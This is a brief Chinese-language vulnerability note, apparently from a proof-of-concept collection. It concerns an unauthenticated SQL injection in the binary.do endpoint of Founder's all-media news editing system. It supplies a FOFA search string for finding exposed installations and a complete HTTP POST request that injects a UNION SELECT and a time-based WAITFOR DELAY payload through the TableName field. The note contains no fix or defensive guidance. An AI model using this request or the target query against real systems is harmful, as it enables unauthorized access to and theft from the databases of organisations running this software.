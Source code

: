 ## 方正畅享全媒体新闻采编系统binary.do存在SQL注入漏洞



方正畅享全媒体新闻采编系统binary.do存在SQL注入漏洞，未经身份验证的恶意攻击者利用SQL注入漏洞获取数据库中信息。



## fofa

```
app="FOUNDER-全媒体采编系统"
```



## poc

```
POST /newsedit/newsplan/task/binary.do HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Content-Type: application/x-www-form-urlencoded
Connection: close

TableName=DOM_IMAGE+where+REFID%3D-1+union+select+%271%27%3B+WAITFOR+DELAY+'0:0:5';select+DOM_IMAGE+from+IMG_LARGE_PATH&FieldName=IMG_LARGE_PATH&KeyName=REFID&KeyID=1
```

